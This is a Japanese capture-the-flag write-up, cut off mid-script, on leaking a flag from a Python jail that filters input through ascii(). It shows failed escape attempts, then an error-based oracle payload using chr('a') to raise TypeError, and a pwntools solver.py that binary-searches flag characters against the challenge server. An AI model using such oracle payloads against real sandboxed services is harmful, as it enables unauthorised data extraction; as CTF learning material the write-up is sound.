 最初に以下が書かれているため、`print(_)`が実行できればflagが出力できます。

```py
for _ in [flag]:
```

一番手っ取り早そうなのは、Exceptionを発生させて`print(err)`を実行させることかなと思いました。

```py
>>> _="flag"
>>> int(_)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ValueError: invalid literal for int() with base 10: 'flag'
```

が、`int(_)`のようにExceptionのエラーメッセージに変数の値が出力させる方法では、`e`や`t`が邪魔をして実行できませんでした。`float(_)`とかも。  
`\x`形式は`\`が`\\`になるためダメ。

```py
>>> code = ascii(input("Give code: "))
Give code: \x70\x72\x69\x6E\x74\x28\x5F\x29
>>> print(code)
'\\x70\\x72\\x69\\x6E\\x74\\x28\\x5F\\x29'
```

入力値を`ascii()`に入れているため、以下のようにしても文字列になるだけ。

```py
(lambda:chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(95)+chr(41))()
```

仕方ないので、エラーベースで総当たりする方法を試しました。  
以下のように書くと、`ord(_[0])==97`がTrueのときにはTypeErrorが発生します。  
Falseのときには何も起きないので、レスポンスのメッセージからフラグの判別が可能になります。

```py
>>> _="ama"
>>> ord(_[0])==97 and chr('a')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: an integer is required (got type str)
>>>
>>> ord(_[0])==98 and chr('a')
False
```

時間かかるとサーバから切断されるので、2分探索をしています。  
開催中は面倒だったので線形探索で時間かけてやりました。

- solver.py

```py:solver.py
#!/usr/local/bin/python
from pwn import *

# KEYS = list(" .:,~^)(=-_&@#!'\"$%?}{abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWZ")
io = remote("amt.rs", 31670)
io.recvuntil(b"Give code: ")

def is_left(n: int, min: int, mid: int) -> bool:
  payload = f"{min}<=ord(_[{n}]) and ord(_[{n}])<{mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def is_right(n: int, mid: int, max: int) -> bool:
  payload = f"{mid}<ord(_[{n}]) and ord(_[{n}])<={max} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
```